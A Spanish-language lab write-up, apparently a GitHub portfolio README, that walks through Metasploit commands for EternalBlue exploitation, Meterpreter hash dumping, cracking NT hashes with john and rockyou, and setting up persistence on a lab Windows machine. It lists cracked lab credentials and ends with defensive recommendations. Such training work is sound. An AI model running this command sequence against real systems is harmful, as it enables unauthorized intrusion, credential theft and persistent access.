# Metasploit: EternalBlue, Meterpreter y gestion de hashes

> Laboratorio realizado en un entorno local/controlado con fines educativos. No aplicar estas tecnicas sobre sistemas de terceros sin autorizacion expresa.

## Objetivo

Practicar uso de Metasploit, sesiones Meterpreter, volcado de hashes y comprobacion de credenciales en workspace.

## Informacion general

- Categoria: Postexplotacion en laboratorio
- Entorno: Kali Linux y maquinas vulnerables de laboratorio
- Formato: documentacion tecnica para portfolio GitHub

## Desarrollo de la practica

Alcance: Ejercicios Metasploit

Ejercicios Metasploit

1.Explotar la vulnerabilidad EternalBlue de Windowsploitable usando un payload meterpreter.

2.En la sesión, volcar los hashes, y comprobar si se han añadido a nuestro workspace.

3.Dejar la sesión en background y hacer post-explotación con un módulo para volcar credenciales.

4.Comprobar de nuevo que las credenciales están añadidas en nuestro workspace.

5.Crackear los hashes almacenados en nuestro workspace usando el módulo destinado a ello.

6.Hacer persistencia y demostrar su funcionamiento reiniciando el sistema.

1.1Conexión entre máquinas.

En primer lugar debemos configurar nuestro rango de red para que las máquinas tengan conexión entre ellas.

```bash

ip addr add 10.0.2.10/24 dev eth0

ping 10.0.2.101

```

Ahora que tenemos conexión, preparamos metasploit para llevar a cabo la post-explotación.

1.2Explotación.

Utilizaremos los siguientes comandos para llevar a cabo la explotación y por consiguiente obtener una sesión de meterpreter:

```bash

msfdb init && msfconsole iniciar base de datos y metasploit.

search eternalblue buscar exploit para explotación.

use 0 le decimos que queremos utilizar el exploit numero 0.

show options para ver si nos falta algo por configurar.

```

exploit para realizar la explotación.

Y así hemos obtenido la sesión de meterpreter.

Debido a un error de sesión que es persistente saltaremos al paso tres, en este punto número 2 tendríamos que poner el comando hashdump y se volcarían los hashes, luego ponríamos creds y los veríamos volcados en la base de datos de metasploit.

3.1Post-explotación.

Utilizaremos los siguientes comandos para realizar enviar la sesión a segundo plano, buscar un módulo de credenciales y explotarlo para obtener los hashes:

```bash

background

search post/windows/gather

use post/windows/gather/smart_hashdump

show options

set session 1

exploit

```

creds para ver el volcado de credenciales en nuestro workspace


### Comandos

```bash

search crack

use auxiliary/analyze/crack_windows

set CUSTOM_WORDLIST /usr/share/wordlists/rockyou.txt esto sirve para elegir que diccionario queremos utilizar.

set USE_DEFAULT_WORDLIST false con este comando desactivamos el diccionario por defecto.

```

No hemos conseguido crackear los hashes de esta manera, a si que lo intentaremos utilizando john con los siguientes comandos:

Creamos un archivo que contenga los hashes: nano windows_hashes.txt


### Utilizamos john de la siguiente manera

```bash

john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ./windows_hashes.txt

```


### Y este es el resultado

Hemos obtenido la contraseña de bob:1234test


### Utilizando otras herramientas hemos obtenido otra contraseña

master:1234$test

```bash

search persistence

use exploit/windows/local/persistence

set LHOST 10.0.2.10

```

## Evidencias visuales

### Captura 01



### Captura 02



### Captura 03



### Captura 04



### Captura 05



### Captura 06



### Captura 07



### Captura 08



### Captura 09



### Captura 10



### Captura 11



### Captura 12



### Captura 13



### Captura 14



### Captura 15




## Medidas defensivas y aprendizaje

- Mantener servicios actualizados y eliminar software obsoleto.
- Exponer solo los puertos necesarios y aplicar reglas de firewall.
- Usar segmentacion de red para aislar maquinas vulnerables o servicios criticos.
- Revisar logs de autenticacion, red y aplicacion tras cualquier prueba.
- Sustituir servicios inseguros por alternativas cifradas y soportadas.
- Aplicar el principio de minimo privilegio en usuarios, servicios y demonios.
- Documentar cada hallazgo con evidencia, impacto y recomendacion.

## Notas

- Se ha eliminado informacion personal y marcas de confidencialidad del documento original.
- Las rutas, IPs y credenciales que aparecen pertenecen a entornos de laboratorio o maquinas vulnerables preparadas para practica.
- Este README es la version limpia para GitHub; conserva los documentos originales solo en privado.
